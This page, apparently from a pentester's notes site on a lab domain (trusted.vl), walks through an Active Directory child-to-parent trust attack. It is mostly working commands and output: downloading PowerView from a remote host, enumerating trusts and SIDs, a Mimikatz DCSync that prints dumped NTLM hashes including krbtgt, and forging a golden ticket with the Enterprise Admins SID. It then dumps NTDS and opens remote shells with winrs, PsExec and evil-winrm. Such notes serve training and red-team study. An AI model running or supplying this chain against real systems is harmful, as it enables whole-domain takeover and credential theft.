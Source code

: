 ```yaml
---
title: "Trust Attack"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```


#### **Trust  Bidirectional**

To perform this attack after compromising a child domain, we need the following:

- The KRBTGT hash for the child domain
- The SID for the child domain
- The name of a target user in the child domain (does not need to exist!)
- The FQDN of the child domain.
- The SID of the Enterprise Admins group of the root domain.
- With this data collected, the attack can be performed with Mimikatz.

- **Trust Relationship** :
```sh
Invoke-WebRequest -Uri "http://10.8.3.12:8080/PowerView.ps1" -OutFile "C:\Users\administrator\Desktop\powerview.ps1"

Import-Module ./PowerView.ps1

Get-NetDomainTrust
```
Or : 
- Powershell Built-in cmdlet :
```powershell
([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).GetAllTrustRelationships()
```

- The SID for the child domain and parents
```powershell
Get-DomainSID # Child
Get-DomainGroup -Domain trusted.vl -Identity "Enterprise Admins" \| select distinguishedname,objectsid`
```

- Also we can use **Mimikatz** :
```sh
lsadump::trust
```

In order for an attacker to grant themselves Enterprise Admin rights, they can simply add “-519” at the end of the Parent Domain’s Security Identifier (SID). This allows them to trick the system into recognizing their account as a member of the Enterprise Admins group, even though they are not actually part of it.

```sh
Current domain: LAB.TRUSTED.VL (LAB / S-1-5-21-2241985869-2159962460-1278545866)
Domain: TRUSTED.VL (TRUSTED / S-1-5-21-3576695518-347000760-3731839591-519)

```

- The KRBTGT hash for the child domain: using DCSync Attack :

 ```sh
 mimikatz # lsadump::dcsync /all /csv  
 ```
 - Result : 
 ```sh
[DC] 'lab.trusted.vl' will be the domain
[DC] 'labdc.lab.trusted.vl' will be the DC server
[DC] Exporting domain 'lab.trusted.vl'
1104    rsmith  30ef48d2054363df9244bc0d476e93dd        66048
502     krbtgt  c7a03c565c68c6fac5f8913fab576ebd        514
1106    ewalters        56d93bd5a8250652c7430a4467a8540a        66048
500     Administrator   75878369ad33f35b7070ca854100bc07        66048
1107    cpowers 322db798a55f85f09b3d61b976a13c43        66048
1000    LABDC$  c101e5fcd553128d23a62df1c509a576        532480
1103    TRUSTED$        182161c2718e1d45b2202d6e35a7eb6e        2080
```

 - Creating Golden ticket : 
 ```sh
mimikatz # kerberos::golden /user:Administrator /domain:LAB.TRUSTED.VL /sid:S-1-5-21-2241985869-2159962460-1278545866 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /sids:S-1-5-21-3576695518-347000760-3731839591-519 /ptt
```

- Dump NTDS : 
```SH
lsadump::dcsync /domain:trusted.vl /dc:trusteddc.trusted.vl /all
#Then connect with the hash win evil-winrm
```
or 
Without ptt :
 ```sh
mimikatz # kerberos::golden /user:Administrator /domain:LAB.TRUSTED.VL /sid:S-1-5-21-2241985869-2159962460-1278545866 /krbtgt:c7a03c565c68c6fac5f8913fab576ebd /sids:S-1-5-21-3576695518-347000760-3731839591-519 
```
- Load the ticket to get the shell on root domain trusteddc.trusted.vl

```sh
mimikatz: kerberos::ptt ticket.kirbi
```

```sh
winrs -r:trusteddc.trusted.vl cmd
/
Enter-PSSession trusteddc.trusted.vl
```
Other option:  

Execute a cmd in the remote machine with [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec):

```shell
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```